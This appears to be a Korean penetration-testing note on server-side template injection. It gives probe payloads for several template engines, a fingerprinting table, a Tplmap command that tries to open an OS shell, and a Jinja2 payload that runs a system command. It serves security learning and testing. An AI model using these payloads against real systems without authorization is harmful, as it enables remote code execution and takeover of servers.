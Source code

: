 ```yaml
---
layout: page
title: SSTI
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# SSTI (서버 사이드 템플릿 인젝션) 가이드

SSTI(Server-Side Template Injection)는 공격자가 웹 애플리케이션의 템플릿에 악의적인 코드를 주입하여, 서버 측에서 해당 코드가 실행되도록 만드는 심각한 취약점입니다. 성공 시 원격 코드 실행(RCE)으로 이어져 시스템을 완전히 장악할 수 있습니다.

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#ssti-in-go

---

### **1. 취약점 식별: 간단한 연산 시도**

- **목표:** 웹 애플리케이션이 사용자 입력을 템플릿의 일부로 처리하는지 확인합니다.
- **전략:** 다양한 템플릿 엔진에서 사용하는 문법으로 간단한 수학 연산(예: `7*7`)을 포함한 페이로드를 삽입하고, 서버가 이 연산을 수행하여 `49`를 반환하는지 확인합니다.

```text
${7*7}
{{7*7}}
<%= 7*7 %>
#{7*7}
```

- **테스트 위치:**
  - URL 쿼리 파라미터 (`?name=...`)
  - POST 요청의 폼 필드 (사용자 이름, 검색어 등)
  - HTTP 헤더 (`User-Agent`, `Referer` 등)
  - 쿠키 값

---

### **2. 템플릿 엔진 식별**

- **목표:** 어떤 템플릿 엔진(Jinja2, FreeMarker, Velocity 등)이 사용되는지 정확히 파악하여, 해당 엔진에 맞는 익스플로잇 페이로드를 준비합니다.
- **전략:** 특정 문법에만 반응하는 페이로드를 순차적으로 테스트하여 엔진의 종류를 좁혀나갑니다. 아래는 HackTricks에서 제공하는 의사 결정 다이어그램을 기반으로 한 식별 과정입니다.

![SSTI 엔진 식별 플로우차트](https://book.hacktricks.wiki/assets/SSTI-flowchart.png)
*(출처: HackTricks)*

1.  `{{7*'7'}}` -> **Jinja2** (결과: `7777777`), **Twig** (결과: `49`)
2.  `${7*7}` -> **FreeMarker** (결과: `49`)
3.  `<%= 7*7 %>` -> **Ruby (ERB)** (결과: `49`)
4.  `#{7*7}` -> **Java (Velocity)** (결과: `49`)

---

### **3. 익스플로잇: 원격 코드 실행 (RCE)**

- **목표:** 식별된 템플릿 엔진에 맞는 알려진 페이로드를 사용하여 OS 명령어를 실행하는 셸을 획득합니다.

#### **자동화 도구: Tplmap**
가장 효율적인 방법은 `Tplmap`을 사용하는 것입니다. 이 도구는 엔진 식별부터 익스플로잇까지의 전 과정을 자동화해줍니다.

- **[Tplmap GitHub 링크](https://github.com/epinna/tplmap)**

```bash
# -u: 취약한 URL (퍼징할 위치에 * 표시)
# --os-shell: OS 셸 획득 시도
python3 tplmap.py -u "http://vulnerable.com/page?name=*" --os-shell
```

#### **수동 익스플로잇 (예: Python/Jinja2)**
엔진이 식별되면, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) 같은 저장소에서 해당 엔진에 맞는 RCE 페이로드를 찾아 사용할 수 있습니다.

```python
# OS 모듈을 임포트하여 명령어 실행
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

